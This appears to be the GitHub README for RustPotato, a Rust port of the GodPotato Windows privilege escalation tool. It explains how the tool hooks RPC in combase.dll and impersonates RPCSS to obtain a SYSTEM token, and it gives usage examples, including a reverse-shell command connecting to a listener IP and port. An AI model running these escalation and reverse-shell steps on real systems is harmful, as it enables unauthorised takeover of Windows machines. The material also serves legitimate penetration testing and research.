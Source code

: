 # RustPotato

**RustPotato** is a Rust-based implementation of [GodPotato](https://github.com/BeichenDream/GodPotato), a privilege escalation tool that abuses **DCOM** and **RPC** to leverage **SeImpersonatePrivilege** and gain `NT AUTHORITY\SYSTEM` privileges on Windows systems.

## Key Features

- **TCP-based Reverse Shell**:  
  RustPotato features a TCP-based reverse shell based on [Rustic64Shell](https://github.com/safedv/Rustic64Shell). It leverages Winsock APIs for network communication and indirect NT APIs for pipe-based I/O redirection, enabling command execution through `cmd` or `powershell`.

- **Indirect NTAPI**:  
  RustPotato leverages indirect NTAPI calls for various operations, including token handling and manipulation.

## Overview

Below is an overview of its execution flow, highlighting key operations at each step:

### 1. **Initialize and Hook RPC Context**

1. **Locate `RPC_SERVER_INTERFACE` Structure**:  
   The tool scans the memory of `combase.dll` to find the `RPC_SERVER_INTERFACE` structure, a critical component for managing RPC communications through the OXID Resolver.

2. **Hook RPC Dispatch Table**:  
   RustPotato replaces the first entry in the `RPC_DISPATCH_TABLE` with a custom function pointer, enabling interception and manipulation of specific RPC calls.

### 2. **Start Named Pipe Server and Trigger RPCSS**

The named pipe server plays a central role in impersonation and privilege escalation:

- **Create Named Pipe**:  
  A named pipe (e.g., `\\.\pipe\RustPotato`) is created with unrestricted access, serving as the endpoint for client connections.

- **Unmarshal COM Object**:  
  RustPotato crafts and unmarshals a COM object, compelling **RPCSS** to establish a connection with the named pipe.

- **Trigger RPCSS**:  
  The unmarshalled object invokes RPC calls that traverse the hooked dispatch table, allowing RustPotato to intercept and manipulate the interactions.

- **Impersonate Client**:  
  When **RPCSS** connects to the named pipe, RustPotato impersonates the client using `ImpersonateNamedPipeClient` to assume its security context.

- **Retrieve SYSTEM Token**:  
  During impersonation, RustPotato locates and duplicates a token associated with the `NT AUTHORITY\SYSTEM` account.

### 3. **Execute Command or Establish Reverse Shell**

- **Execute a Command**:  
  RustPotato uses the duplicated token to execute a specified command, leveraging `CreateProcessWithTokenW`.

- **Establish a Reverse Shell**:  
  With reverse shell options (`-h` and `-p`), RustPotato connects to a listener and executes commands through `cmd` or `powershell`.

### 4. **Restore State and Cleanup**

- **Restore RPC Dispatch Table**:  
  Removes the custom function pointer from the `RPC_DISPATCH_TABLE` and restores the original state in `combase.dll`.

- **Terminate Pipe Server**:  
  Stops the named pipe server, releasing all associated resources and handles.

## Usage

RustPotato provides the following features:

- **`verbose`**: Enables detailed logging during execution.

### Build Options

- **Basic build** (only the process output is printed):

  ```bash
  cargo +nightly-2025-02-14 build --release
  ```

- **Build with verbose logging**:

  ```bash
  cargo +nightly-2025-02-14 build --release --features verbose
  ```

> [!NOTE]
> RustPotato requires Rust nightly 1.86 and supports only x86_64 targets (MSVC or GNU).

### Help

```text
Usage:
  RustPotato.exe [command line] | [options]

Description:
  Execute a command line or start a reverse shell.

Options:
  -h <LHOST>         Specify the IP address of the listener for the reverse shell.
  -p <LPORT>         Specify the port of the listener for the reverse shell.
  -c <cmd|powershell>
                     Specify the shell to be used in the reverse shell (optional, default is cmd).

Examples:
  Execute a command line:
    RustPotato.exe "cmd.exe /c whoami"

  Start a reverse shell with the default shell (cmd):
    RustPotato.exe -h 192.168.1.100 -p 4444

  Start a reverse shell with powershell:
    RustPotato.exe -h 192.168.1.100 -p 4444 -c powershell
```

## Disclaimer

This project is for **educational and research purposes only**. RustPotato is a personal learning project focused on exploring Rust and Windows internals. Use it responsibly—any misuse is entirely your responsibility.

Always respect ethical guidelines and adhere to legal frameworks while conducting security research (or, honestly, in everything you do).

## Credits

Special thanks to:

- [BeichenDream](https://github.com/BeichenDream) for his work on [GodPotato](https://github.com/BeichenDream/GodPotato), which made this port possible!
- [Resolving System Service Numbers Using The Exception Directory by MDsec](https://www.mdsec.co.uk/2022/04/resolving-system-service-numbers-using-the-exception-directory/) for their insights on resolving SSNs.

---
